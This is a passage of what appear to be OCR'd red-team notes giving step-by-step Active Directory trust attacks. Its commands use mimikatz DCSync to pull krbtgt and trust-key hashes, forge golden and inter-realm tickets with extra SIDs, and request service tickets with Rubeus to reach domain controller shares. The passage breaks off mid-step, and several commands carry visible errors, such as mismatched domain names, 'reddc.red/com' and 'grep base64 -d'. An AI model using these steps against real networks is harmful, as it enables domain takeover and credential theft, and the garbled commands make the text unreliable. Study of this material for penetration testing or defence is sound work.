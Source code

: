 Step 1: Retrieve krbtgt's NTLM
```powershell
mimikatz.exe

lsadump::dcsync /domain:ops.comply.com /user:ops\krbtgt
```
Step 2: Get SID and SIDs
```powershell
Get-DomainSID -Domain ops.red.com

Get-DomainSID -Domain red.com
```
Step 3: Create a golden ticket
```powershell
mimikatz.exe "kerberos::golden /user:Administrator /domain:ops.red.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-519 /ptt" "exit"
```
### Abuse Trust key in bidirectional trust

Step 1: List domain trust keys, retrieve SID and SIDs
```powershell
lsadump::dcsync /domain:child.red.com /user:red$
```
or
```powershell
lsadump::trust /patch
```
Step 2: Issue inter-realm ticket
```powershell
mimikatz kerberos::golden /user:Administrator /domain:child.red.com /sid:S-1-5-21-1675743924-53933031-1918224021 /rc4:51d5b5713a4732047319d02bb9c07c10 /sids:S-1-5-21-3192643952-2658629199-322554960-519 /service:krbtgt /target:red.com /ticket:trust.kirbi
```
Step 3: Request a TGS
```powershell
rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/reddc.red.com /dc:reddc.red.com /ptt
```
Step 4: Access resource
```powershell
ls [\\reddc.red.com\c$](file://reddc.red.com/c$)
```
### Inbound Trust

Step 1: Retrieve Administrator's credential
```powershell
dcsync red.com red\administrator
```
Step 2: Apply a TGT
```powershell
rubeus.exe asktgt /user:administrator /domain:red.com/aes256:b3d86eabd4895b6cc1ba459490445e0444053c7f24e0ed50cf86d1e1154576c9 /opsec /nowrap
```
Step 3: Request a referral ticket
```powershell
rubeus.exe asktgs /service:krbtgt/blue.com /domain:red.com /dc:reddc.red/com /ticket:[ticket] /nowrap
```
Step 4: Use the referral ticket to request a TGS in target domain
```powershell
rubeus.exe asktgs /service:cifs/bluedc.blue.com/domain:bluedc.blue.com /dc:bluedc.blue.com /ticket:[ticket]  /nowrap
```
Step 5: Save the ticket
```bash
echo '[ticket]' | grep base64 -d > red.kirbi
```
6: Import the ticket and access resource